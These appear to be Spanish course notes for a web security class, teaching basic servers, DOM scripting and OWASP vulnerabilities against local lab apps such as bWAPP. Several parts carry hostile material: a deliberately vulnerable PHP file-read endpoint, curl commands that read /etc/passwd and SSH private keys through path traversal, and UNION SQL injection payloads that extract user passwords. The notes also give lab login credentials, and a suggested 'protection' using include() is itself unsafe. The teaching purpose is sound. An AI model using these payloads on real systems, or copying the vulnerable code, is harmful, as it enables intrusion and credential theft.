







### Ejercicio 1

Crearemos un pequeño servidor en Python que sirva el `index.html` de la carpeta donde lo hayamos ejecutado. Para ello, usaremos un módulo existente en Python, colocamos la web en la carpeta `/var/www/html` o podemos servir lo que tengamos en cualquier web a través del comando:

```shell
# Python 2.x
python -m SimpleHTTPServer
# Python 3
python -m http.server
```

Y los comandos son: 

```shell
mkdir web
cd /web
touch index.html
touch script.js
```

Editamos `index.html`para que contenga este código: 

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <h1>P&aacute;gina web</h1>
</head>
<body>
    <script src="script.js"></script>
</body>
</html>
```

Editamos `script.js` con una línea de código:

```javascript
console.log("L1");
```

Y ahora lanzamos el servidor. Allí dentro ejecutamos el servidor: 

```shell
python -m SimpleHTTPServer # En Windows python -m http.server <puerto>
```

### Ejercicio 2

Realiza una petición a una URL con **curl**.

```shell
curl localhost:8000
```

### Ejercicio 3

Añadir un `<li>` con el texto del `<input>` de tipo `text`. El fichero `index.html` con un cuadro de texto y un botón.

```html
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>P&aacute;gina web</title>
</head>
<body>
    <h1>P&aacute;gina web</h1>
    <form id="addTaskForm">
        <input id="txtTaskName" name="taskName">
        <input id="btnAddNewTask" type="submit">
    </form>
    <ul id="taskList"></ul>
    <script src="script.js"></script>
</body>
</html>
```

```javascript
console.log("L1");
const form  = document.querySelector("form");
const input = document.querySelector("#txtTaskName");

form.addEventListener("submit", addNewItem);

itemsAnadidos = [];

function addNewItem(e) {
	e.preventDefault();
	
	// setTimeout(function() { console.log("aparece") }, 2000);
	
	console.log(input.value);
	
	let elementoUL = document.querySelector("#taskList");
	let elementoLI = document.createElement("li");
	
	elementoLI.appendChild(document.createTextNode(input.value));
	elementoUL.appendChild(elementoLI);
}
```

### Ejercicio 4

Añadir funcionalidad de añadir un `<li>` con el texto del `<input>` de tipo `text`, es decir, comenzamos a programar la funcionalidad, con el ejemplo del código de abajo. La funcionalidad es que cuando hagamos clic en el botón entonces se añade un `<li>` al `<ul>` del DOM.

```javascript
console.log("L1");
const form  = document.querySelector("form");
const input = document.querySelector("#txtTaskName");

form.addEventListener("submit", addNewItem);

itemsAnadidos = [];

function addNewItem(e) {
	e.preventDefault();
	
	// setTimeout(function() { console.log("aparece") }, 2000);
	
	console.log(input.value);
	
	let elementoUL = document.querySelector("#taskList");
	let elementoLI = document.createElement("li");
	
	elementoLI.appendChild(document.createTextNode(input.value));
	elementoUL.appendChild(elementoLI);
	
	// itemsAnadidos.push(input.value);
	
	// localStorage.setItem("valores", JSON.stringify(itemsAnadidos));
}
```

### Ejercicio 5

Realiza un `index.html` que muestre por consola los siguientes valores: 

**EL BOM**:  Con JS podemos gestionar otros objetos relacionados con el navegador:

```javascript
console.log(window.navigator.appVersion);
console.log(window.navigator.appName);
console.log(window.navigator.userAgent);
console.log(window.navigator.appCodeName);
console.log(window.navigator.platform);
console.log(window.screen.width);
console.log(window.screen.height);
console.log(window.screen.colorDepth);

window.close();
```

O por ejemplo: 

```javascript
let pregunta = confirm("¿Quieres aprender sobre seguridad informática?");

if (pregunta == true) {
	window.location="http://ceti.ies.pmo";
}
```

### Ejercicio 6

Programamos un pequeño servidor en Node.js:

```javascript
const http     = require("http");
const hostname = "127.0.0.1";
const port     = "3000";
const server   = http.createServer(function(req,res) {
    res.statusCode = 200;
    res.setHeader("Content-Type","text/plain");
    res.end("Hola Mundo");
});

server.listen(port, hostname, () => {} );
```

### Ejercicio 7

Programaremos temporizadores. Concretamente un `index.html` donde en el `script.js` haya las siguientes instrucciones: 

```javascript
setTimeout(function() { console.log("Se acabó")}, 2000);

setTimeout(function() {
	console.log("printed after 3 secs");
}, 3000);

var interval = setInterval(function() {
	console.log("prints every 2 seconds");
}, 2000);

setTimeout(function() {
	clearInterval(interval);
}, 10000);

var test = true;

if (typeof test == "string") {
    console.log('var `test` is a string');
} else {
    console.log('i dont know\n', typeof test);
}
```

### Ejercicio 8

Explica y describe con tus propias palabras la vulnerabilidad A01: Control de acceso roto. Incluiremos los tipos de escalado.

Link del top : https://owasp.org/www-project-top-ten/

El **control de acceso roto** ocurre cuando una error o una ausencia de mecanismos de control de acceso le permite a un usuario acceder a un recurso que está fuera de sus permisos previstos. Podemos encontrar dos tipos de accesos rotos, **vertical** y **horizontal**.

- **Vertical**: Cuando un usuario previamente registrado en el sistema puede subir de privilegios.
- **Horizontal**: Cuando un usuario puede hacerse pasar por otro usuario pero mantiene el mismo nivel de privilegios.

### Ejercicio 9

Programa y prueba los dos scripts anteriores.

```python
# codificado.py
import base64

valor = (b"ciberseguridad")
codificadoEnBase64 = base64.b64encode(valor).decode("utf-8")
print(codificadoEnBase64)
```

```python
# decoficado.py
import base64

valorEnBase64 = (b"Y2liZXJzZWd1cmlkYWQ=")
decodificado = base64.b64decode(valorEnBase64).decode("utf-8")
print(decodificado)
```

### Ejercicio 10

Ampliaremos de manera que el script recibe por parámetro de terminal el string a decodificar. Por tanto estudiaremos cómo gestionar los parámetros en Python.

```python
# main.py
import base64
import argparse

try:
   parser = argparse.ArgumentParser(description="Conversor de BASE64 a texto plano")
   # Añadir argumentos a parse.
   parser.add_argument("texto", type=str, help="Introduce una cadena")
   # Pasar los argumentos.
   args = parser.parse_args()
   # Imprime en pantalla.
   print(base64.b64decode(args.texto).decode("ascii"))
except Exception as ex:
   print("No es una cadena BASE64.")
```

### Ejercicio 11

Entrega el index.html y script.js anterior (recuerda que utiliza el `LocalStorage`).

```html
<!DOCTYPE html>
<html lang="es">
<head>
	<meta charset="UTF-8">
	<meta http-equiv="X-UA-Compatible" content="IE=edge">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>P&aacute;gina web</title>
</head>
<body>
	<h1>P&aacute;gina web</h1>
	<form id="addTaskForm">
		<input id="txtTaskName" name="taskName">
		<input id="btnAddNewTask" type="submit">
	</form>
	<ul id="taskList"></ul>
	<script src="script.js"></script>
</body>
</html>
```

```javascript
console.log("L1");
const form = document.querySelector("form");
const input = document.querySelector("#txtTaskName");
form.addEventListener("submit", addNewItem);
 
itemsAnadidos = [];
 
function addNewItem(e) {
	e.preventDefault();
	console.log(input.value);
	let elementoUL = document.querySelector("#taskList");
	let elementoLI = document.createElement("li");
	elementoLI.appendChild(document.createTextNode(input.value));
	elementoUL.appendChild(elementoLI);
	itemsAnadidos.push(input.value);
	localStorage.setItem("valores", JSON.stringify(itemsAnadidos));
}
```

### Ejercicio 12

Programar un script en python que aplique una decodificación de las CRC-16 CRC-32 MD2 MD4 MD5 SHA1 SHA224 SHA256 SHA384 SHA512 SHA512/224 SHA512/256 SHA3-224 SHA3-256 SHA3-384 SHA3-512 Base32 y Base64 a un string que le pasemos por parámetro. Ejemplo de ejecución: python3 ejercicio12.py 180049f3-5bd7-67fe-98f2-46a7ab9e9ed4

### Ejercicio 13

Creamos un pequeño servidor en PHP que devuelva el contenido del fichero que se le solicita por parámetro en la URL. Se trata de un pequeño servidor que no tiene control de acceso ninguno. Devuelve lo que se le solicita. Comprobaremos cómo al crear este servidor lo estaremos creando con la vulnerabilidad IDOR. Esta vulnerabilidad se conoce como Path Traversal, es decir recorrido de ficheros. OWASP documenta esta vulnerabilidad: https://owasp.org/www-community/attacks/Path_Traversal

Levantamos un servidor básico PHP con el comando:

```shell
php -S localhost:8888
```

```php
# index.php
<?php
$parametroRecibido = $_GET["parametro1"];
$contenidoFichero = file_get_contents($parametroRecibido);
header("Content-Type: text/plain");
echo $contenidoFichero;
exit;
?>
```

Lanzamos un pequeño servidor que devuelve lo que encuentre en una carpeta. Crearemos un fichero de texto 1.txt cuyo contenido sea "Contenido de 1.txt".

Mientras que las peticiones las haremos sin un navegador web, directamente con el binario curl. La petición que haremos será:

```shell
curl localhost:8888/index.php?parametro1=1.txt
```

Recuperamos el contenido de 1.txt. Pero podemos crear un script que compruebe si existen ficheros por una pequeña fuerza bruta. Por ejemplo, para comprobar cómo tendríamos acceso a otros ficheros, crearemos 3 ficheros de texto: 1.txt, 2.txt y 3.txt.

```sh
#set -x #depurando líneas
for i in $(seq 1 10);do
curl localhost:8000/index.php?parametro1=$i.txt
echo ""
sleep 1
done
```

### Ejercicio 14

Otra vulnerabilidad que tiene este fichero (que consiste realmente en la base del Path Traversal) es que permite devolver ficheros del sistema de ficheros del disco duro, es decir si ejecutamos: 

```shell
curl localhost:8888/index.php?parametro1=1/etc/passwd
```

Obtenemos el contenido del fichero passwd. Ahora con esta información podríamos saber qué usuarios utilizan **Bash** o **sh** con: 

```shell
curl -s "http://localhost:8888/index.php?parametro1=/etc/passwd" | grep "sh$"
```

Ahora, podríamos intentar recuperar valores relacionados con RSA: 

```shell
curl -s "http://localhost:8888/index.php?parametro1=/home/USER/.ssh/id_rsa"
```

O también podemos intentar recuperar el listado de procesos que se están ejecutando: 

```shell
curl localhost:8888/index.php?parametro1=/proc/sched_debug
```

### Ejercicio 15

Ahora, por ejemplo, para ver cómo realmente sí que accedemos a la info de los procesos en ejecución (como si fuera un comando `ps`), vamos a dejar lanzando un `sleep 10000` en un script en el servidor, es decir, el script que vamos a ejecutar se llamará `encuentrame.sh` y contiene dos líneas: 

```sh
#!/bin/bash
sleep 10000000
```

Lo lanzamos en el servidor con el comando: 

```shell
bash encuentrame.sh
```

Y volvemos a ejecutar: 

```shell
curl localhost:8888/index.php?parametro1=/proc/sched_debug
```

Posiblemente aparezca el proceso `encuentrame.sh` en ejecución. 

Por último otra información que podemos recuperar es acerca de los interfaces de red con: 

```shell
curl localhost:8888/index.php?parametro1=/proc/net/fib_trie
```

> ⚠ **PROTECCIÓN** ⚠: Para evitar que el usuario pueda acceder a ficheros que no son los suyos necesitaremos implementar algún tipo de control de acceso tal que así.

Procesa los parámetros y asegúrate que nos aseguramos que no se pueda ejecutar nada que nosotros no tengamos controlado. Se pueden bloquear ciertos strings como por ejemplo `../` y también se pueden establecer extensiones por defecto de manera que se evitemos que se una petición pueda pedir un path completo: 

Si intentan enviar como solicitud: `(URL)...?file=1.txt`
Realmente se estará interpretado: `(URL)...?file=1.txt.html`

```php
<?php
include($_GET["file"] . ".html");
?>
```

Aplicar el principio de restringir al máximo los privilegios: proporciona permisos de acceso explícitamente en lugar de permitir un acceso implícito a todos. Utilizaremos conceptos como ***chroot jail*** para protegernos.

### Practica Optativa

Creación de un ***chroot jail***: https://phoenixnap.com/kb/chroot-jail. Es hacer una copia del ejecutable del `bash` o `sh`, donde le enlazas los binarios que quieres que tenga ese terminal. 

Aplicaremos algún tipo de control de acceso básico:

```php
if ($user->isAuthorized()) {
	if (file_exists($file_path)) {
		header ("X-Accel-Redirect: " . $file_path);
		header("Content-Type: text/plain");
		header('Content-Disposition: attachment; filename="file.csv"');
		exit;
	} else {
		throw Error("File does not exist");
		exit;
	}
}
```

### Ejercicio 16

Continuamos programando la funcionalidad de la web01 (la del botón que añade el input.text. Hoy vamos a consultar el **LocalStorage** para ver si hay alguna clave que podamos recuperar y cuyos datos añadamos al DOM. ¿Cómo consultaremos si existe la clave "valores"? Programaremos consultar si existe contenido dentro del **LocalStorage**  y lo recuperamos y lo montamos.

Hay multitud de cheatsheets, por ejemplo: https://overapi.com/javascript

```javascript
console.log("L1");

document.addEventListener("DOMContentLoaded", consultaLocalStorage);

function consultaLocalStorage() {
	console.log(new Date());
	let recuperacion = JSON.parse(localStorage.getItem("valores"));
	console.log(recuperacion);
	console.log(recuperacion[0]);
}

const form  = document.querySelector("form");
const input = document.querySelector("#txtTaskName");
form.addEventListener("submit", addNewItem);

itemsAnadidos = [];

function addNewItem(e) {
	console.log(e);
	e.preventDefault();
	console.log(input.value);
	let elementoUL = document.querySelector("#taskList");
	let elementoLI = document.createElement("li");
	elementoLI.appendChild(document.createTextNode(input.value));
	elementoUL.appendChild(elementoLI);
	itemsAnadidos.push(input.value);
	console.log(JSON.stringify(itemsAnadidos));
	localStorage.setItem("valores", JSON.stringify(itemsAnadidos));
}
```

## Guía Docker GNU/Linux

Usaremos Docker en el Linux virtualizado (o en el anfitrión) porque el fichero de **docker-compose** del repositorio fue creado pensando en entorno Linux: 

Arrancamos Linux y ejecutamos los siguientes comandos (están disponibles en la documentación oficial https://docs.docker.com/engine/install/ubuntu/): 

```shell
sudo apt get install ca-certificates curl gnupg lsb-release
```

```shell
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

```shell
sudo apt install docker-ce docker-ce-cli docker-compose containerd.io
```

```shell
sudo apt install docker-ce=18.03.1~ce~3-0~ubuntu containerd.io
```

```shell
sudo docker run hello-world
```

```shell
mkdir vulnerableWebApps <el nombre que tu quieras>
```

```shell
cd vulnerableWebApps
```

```shell
git clone https://github.com/globocom/secDevLabs.git
```

```shell
cd secDevLabs/owasp-top10-2021-apps/a1/ecommerce-api/
```

```shell
sudo apt install make
```

```shell
make install
```

```shell
hostname -I # Consultamos la IP de la maquina virtual.
```

O [localhost:10005](http://localhost:10005) 

### Ejercicio 17

Tras instalar Docker en Linux, accede a la IP anterior, en este caso, por ejemplo: http://172.22.192.6:10005/ desde un navegador web para observar la interfaz del e-commerce.

### Ejercicio 18

El objetivo con ZAP es ver que ya nos muestra lo que envía y recibe el Firefox.

Vamos a arrancarlo y a interceptar algún ejemplo.

Configuramos el proxy, para ello vamos a Herramientas -> Opciones -> Proxies Locales -> En el puerto establecemos el 9500. Y luego en Firefox:


Por último añadiremos un certificado creado por ZAP en el Firefox como autoridad. Iremos a ZAP -> Herramientas -> Certificados SSL Dinámicos -> Generamos y lo descargamos. Después lo importaremos en Firefox. El certificado lo guarda con el nombre: **owasp_zap_root_ca.cer**.

### Ejercicio 19

Accederemos a alguna aplicación web vulnerable como por ejemplo bWAPP.

Antes, también vamos a conocer la máquina que vamos a estar utilizando en las próximas sesiones, que incluye varias aplicaciones web vulnerables que podremos atacar. Su nombre es Vulnerable Web Apps (https://www.vulnerablewebapps.org) y de manera sencilla estará disponible en mi equipo, con una IP del aula. Esto lo hacemos para evitar atacar webs que puedan detectar una actividad sospechosa. En mi caso, podréis acceder a mi máquina virtual en la IP `10.2.10.99`, por tanto: 

```
IP: 10.2.10.99
Usuario: va
Constraseña: vulnerablewebapps
```

Y allí conocemos qué puertos están abiertos con:

```shell
sudo lsof -i -P -n > puertosAbiertos.txt
```

Ahora bien, antes de empezar a entender la vulnerabilidad, vamos a recordar bases de datos y consultas. Vamos a recordar conceptos básicos de bases de datos, recuerda que al fin y al cabo un buen analista ha de conocer de todo.

### Ejercicio 20

¿Cómo se programaría un Hello World en MySQL? Vamos a verlo, utilizando una máquina virtual que tengas, el primer paso es instalar MySQL.

```shell
mysql -u root -p
```

```sql
SELECT "Hola Mundo!";
```

### Ejercicio 21

Captura de pantalla comprobando el número de campos existentes.

```sql
aaa' union select 1,2,3,4,5,6,7 -- 
```



### Ejercicio 22

Captura de pantalla mostrando cómo obtienes en el campo 2 el valor bWAPP. 

```sql
aaa' union select 1,database(),3,4,5,6,7 -- 
```



```sql
kkk' union select 1,table_name,3,4,5,6,7 from INFORMATION_SCHEMA.TABLES where table_schema=database() -- 
```



### Ejercicio 23

Captura de pantalla mostrando cómo obtienes los nombres de las columnas de la tabla users.

```sql
kkk' union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.COLUMNS where table_name="users" AND table_schema=database() -- 
```




### Ejercicio 24

Captura de pantalla mostrando cómo obtienes los valores de dos usuarios. Usuario AIM y usuario bee.

```sql
kkk' union select 1,login, password, email, secret, 6,7 from users -- 
```





### Ejercicio 25

Captura de pantalla mostrando cómo obtienes el nombre de la BBDD pero usando únicamente el proceso de modificar la URL.

```http
http://192.168.1.203/bWAPP/sqli_2.php?movie=-3+union+select+1,database(),3,4,5,6,7&action=go
```



```http
http://192.168.1.203/bWAPP//sqli_2.php?movie=-3+union+select+1,column_name,3,4,5,6,7+from+information_schema.columns+where+table_name=%27users%27+and+table_schema=database()+limit+1+offset+0&action=go
```


## REPASO MYSQL

A continuación, el siguiente paso es configurarla:

```shell
sudo mysql_secure_installation
```

Ahora entramos a MySQL con:

`````shell
mysql -u root -p
`````

Pero antes, comandos a recordar: 

```sql
show databases;
use <NOMBRE BD>;
```

A continuación, comprueba con el siguiente comando el método de autenticación usado por una de tus cuentas de usuario: 

```sql
SELECT user, authentication_string, plugin, host FROM mysql.user;
```

Por ejemplo, podemos observar que el usuario **root** se autentica usando el plugin **auth_socket**. Para configurar la cuenta **root** para autenticar con una contraseña, ejecute una instrucción `ALTER USER` para cambiar qué complemento de autenticación usa y establecer una contraseña nueva. 

> 📝 NOTA 📝: Corregir ERROR 1698 (28000): Access denied for user 'root'@'localhost' en MariaDB (MySQL).
> USE mysql;
> UPDATE user SET plugin="mysql_native_password" WHERE user="root";
> SELECT user, plugin FROM user;
> FLUSH PRIVILEGES;

Del comando siguiente, asegúrate de cambiar password por una contraseña segura de tu elección y ten en cuenta que este comando cambiará la contraseña **root** que estableciste en el paso 2: 

```sql
ALTER USER 'root'@'localhost' IDENTIFIED WITH caching_sha2_password BY 'password';
```

A continuación, ejecuta `FLUSH PRIVILEGES` para indicar al servidor que vuelva a cargar la tabla de permisos y aplique sus nuevos cambios:

```sql
FLUSH PRIVILEGES;
```

```shell
sudo apt install mysql-server -y
```

Comprueba ahora de nuevo los métodos de autenticación empleados por cada uno de sus usuarios para confirmar que **root** deje de realizarla usando **auth_socket**: 

```sql
SELECT user, authentication_string, plugin, host FROM mysql.user;
```

Ahora vamos a crear un usuario dedicado, que no sea **root**. Para crear el usuario abriremos de nuevo MySQL. Ten en cuenta que si tiene la autenticación por contraseña habilitada para root, como se ha descrito anteriormente, deberá usar un comando diferente para acceder al shell de MySQL. A través de lo siguiente, se ejecutará su cliente de MySQL con privilegios de usuario regulares y solo obtendrá privilegios de administrador dentro de la base de datos mediante la autenticación: `mysql -u root -p`.

A partir de ahí, cree un usuario nuevo y asigne una contraseña segura:

```sql
CREATE USER 'sammy'@'localhost' IDENTIFIED BY 'password';
```

Luego, conceda a su nuevo usuario los privilegios apropiados. Por ejemplo, con el siguiente comando podría conceder privilegios de usuario a todas las tablas dentro de la base de datos, así como la facultad de añadir, cambiar y eliminar privilegios de usuario:

```sql
GRANT ALL PRIVILEGES ON *.* TO 'sammy'@'localhost' WITH GRANT OPTION;
```

Tenga en cuenta que en este momento no necesita ejecutar el comando `FLUSH PRIVILEGES` de nuevo. Este comando solo es necesario cuando modifica las tablas de concesión usando instrucciones como `INSERT`, `UPDATE` o `DELETE`. Debido a que creó un nuevo usuario, en vez de modificar uno existente, FLUSH PRIVILEGES no es necesario aquí. Después de esto, cierre el shell de MySQL con exit.

Independientemente de cómo lo haya instalado, MySQL debería comenzar a ejecutarse automáticamente. Para probar esto, compruebe su estado.

```shell
sudo systemctl status mysql
```

Si no se está ejecutando, podremos iniciarlo con: 

```shell
sudo systemctl start mysql
```

Como comprobación adicional, puede intentar establecer conexión con la base de datos usando la herramienta `mysqladmin`, que es un cliente que le permite ejecutar comandos administrativos. Por ejemplo, este comando dice conectar a MySQL como **root** (-u root), solicitud de contraseña (-p), y devolver la versión.

```shell
sudo mysqladmin -p -u root version
```

Esto significará que MySQL estará funcionando. 

Ahora continuaremos haciendo un Hola Mundo! en MySQL, para ello, vamos a entrar a MySQL : 

```shell
sudo mysql -u root -p
```

```sql
SELECT "Hola Mundo!";
```

Ahora, continuaremos con un ejercicio básico para recordar MySQL. Vamos a crear una BD que se llame birthdays:

```sql
CREATE DATABASE birthdays;
```

Selecciona la BD:

```sql
USE birthdays;
```

Ahora, vamos a crear 2 tablas dentro de la BD. Primero usaremos una tabla para seguir los torneos de tus amigos/as. El siguiente comando crea una tabla llamada tourneys con las columnas llamada name, wins, best, size:

```sql
CREATE TABLE tourneys (
   name varchar(30),
   wins real,
   best real,
   size real
);
```

Ahora vamos a crear algunos registros en esta tabla:

```sql
INSERT INTO tourneys (name, wins, best, size) VALUES 
("Dolly", "7", "245", "8.5"), 
("Etta", "4", "283", "9"), 
("Irma", "9", "266", "7"), 
("Barbara", "2", "197", "7.5"), 
("Gladys", "13", "273", "8");
```

Ahora vamos a crear otra tabla llamada dinners:

```sql
CREATE TABLE dinners (
   name varchar(30),
   birthdate date,
   entree varchar(30),
   side varchar(30),
   dessert varchar(30)
);
```

Rellena esta tabla insertando los siguientes registros:

```sql
INSERT INTO dinners (name, birthdate, entree, side, dessert) VALUES 
("Dolly", "1946-01-19", "steak", "salad", "cake"), 
("Etta", "1938-01-25", "chicken", "fries", "ice cream"), 
("Irma", "1941-02-18", "tofu", "fries", "cake"), 
("Barbara", "1948-12-25", "tofu", "salad", "ice cream"), 
("Gladys", "1944-05-28", "steak", "fries", "ice cream");
```

## Pentesting Web con OWASP

### Acceso a bWAPP

Para entrar en la máquina virtual: utiliza la siguiente información:

- Usuario: va
